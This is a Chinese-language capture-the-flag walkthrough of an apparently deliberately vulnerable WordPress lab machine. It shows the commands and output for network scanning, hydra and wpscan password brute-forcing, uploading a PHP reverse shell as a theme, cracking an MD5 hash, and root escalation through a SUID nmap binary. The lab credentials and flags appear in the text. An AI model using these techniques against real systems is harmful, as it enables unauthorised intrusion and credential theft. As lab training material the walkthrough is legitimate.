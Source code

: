 # mynew
nmap 交互shell提权

# 



1、nmap 10.211.55.0/24 -sP
Nmap scan report for localhost (10.211.55.49)

2、nmap -p- 10.211.55.49
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https


3、web信息枚举

http://10.211.55.49/wp-login.php   ---wordpress博客登录界面
http://10.211.55.49/wordpresswp-login.php   ---博客外部界面AWVS扫描存在wordpress高危

http://10.211.55.49/admin/robots.txt  ---枚举出存在robots.txt
继续枚举：
http://10.211.55.49/robots.txt   ---发现fsocity.dic和key-1-of-3.txt
key-1-of-3.txt   ---这就是flag1

下载fsocity.dic：
wget http://10.211.55.49/fsocity.dic
mv fsocity.dic dayu.txt   ---发现这就是个字典，我改为txt文件更方便


4、暴力破解

post方式提交，破解web登录：hydra
1）BP抓包：
log=1&pwd=1&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.211.55.49%2Fwp-admin%2F&testcookie=1
2）hydra爆破：
hydra -L dayu.txt -p dayutest 10.211.55.49 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,F=内容是表示错误猜解的返回信息提示。） 


[80][http-post-form] host: 10.211.55.49   login: Elliot   password: dayutest

成功爆破出用户名：Elliot

5、wepscan枚举Elliot

wpscan -U Elliot -P dayu.txt --url http://10.211.55.49 -t 10000
爆破需要一段时间所以加入-t一万个线层进行爆破！
但是经过40分钟才可以爆破出来！

检查字典：发现很多重复的
Linux sort 命令用于将文本文件内容加以排序：sort 可针对文本文件的内容，以行为单位来排序。
https://www.runoob.com/linux/linux-comm-sort.html

sort dayu.txt | uniq > dayu1.txt
-u, --unique 配合-c，严格校验排序；不配合-c，则只输出一次排序结果

wpscan -U Elliot -P dayu1.txt --url http://10.211.55.49
[SUCCESS] - Elliot / ER28-0652
通过不到一分钟就成功爆破了！


7、worepress站getshell
访问：http://10.211.55.49/wp-login.php 

elliot
ER28-0652
成功登录！

点击：Appearance->Add New->Upload Theme->文件上传

cp /usr/share/webshells/php/php-reverse-shell.php .
在文件上传处上传php-reverse-shell，然后点击模块：Media
点击刚上传的文件位置！右边获得上传点连接：
http://10.211.55.49/wp-content/uploads/2022/03/php-reverse-shell.php
nc -vlp 1234

成功获得反弹shell，但是这里获得的是/bin/sh的shell在执行：
/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo&&fg

获得稳定的反弹shell！


8、内部信息收集

cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b   ---md5解密
https://www.somd5.com/  ---进行解密
abcdefghijklmnopqrstuvwxyz    ---获得密码

或者约翰进行暴力破解：
john -format=raw-md5 -wordlist=/usr/share/wordlists/rockyou.txt hash
abcdefghijklmnopqrstuvwxyz (?)


find / -perm -4000 2>/dev/null
/usr/local/bin/nmap   ---安装了nmap



9、提权

su robot
abcdefghijklmnopqrstuvwxyz

cat key-2-of-3.txt
822c73956184f694993bede3eb39f959

1）nmap提权
利用priv升级漏洞进行bash提权

/usr/local/bin/nmap --interactive   ---即可得到交互式shell
!whoami
!/bin/bash -p
成功获得root权限！


-------------------------------------------------------
拓展技巧
burpsuite最新版安装和暴力破解：

https://blog.csdn.net/u011781521/article/details/54772795


























































































